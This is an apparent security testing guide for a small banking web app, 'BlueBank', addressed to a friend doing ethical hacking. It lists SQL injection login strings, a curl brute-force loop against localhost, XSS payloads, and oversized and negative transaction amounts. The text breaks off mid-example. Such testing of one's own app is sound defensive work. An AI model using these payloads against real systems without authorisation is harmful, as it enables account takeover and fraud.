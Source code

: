 # 🛡️ BlueBank Security Enhancement & Penetration Testing Guide

## 🎯 **For Your Friend (The Ethical Hacker)**

Your friend testing your security is **excellent practice**! Here's what they should focus on:

---

## 🚨 **Critical Vulnerabilities to Test**

### **1. Authentication Bypass Attempts**
```bash
# Test these attack vectors:

# SQL Injection on Login
POST /api/login
{
  "email": "admin'--",
  "password": "anything"
}

# OR try:
{
  "email": "' OR '1'='1",
  "password": "' OR '1'='1"
}

# Brute Force Login (no rate limiting currently)
for i in {1..1000}; do
  curl -X POST http://localhost:8000/api/login \
    -H "Content-Type: application/json" \
    -d '{"email":"admin@test.com","password":"password'$i'"}'
done
```

### **2. Input Validation Bypass**
```bash
# XSS Attempts
POST /api/register
{
  "email": "test@test.com",
  "display_name": "<script>alert('XSS')</script>",
  "username": "<img src=x onerror=alert('XSS')>",
  "password": "test123"
}

# Large Number Attacks
POST /api/deposit
{
  "email": "user@test.com",
  "password": "password",
  "amount": 999999999999999999999
}

# Negative Amount Bypass
POST /api/withdraw
{
  "email": "user@test.com", 
  "password": "password",
  "amount": -1000
```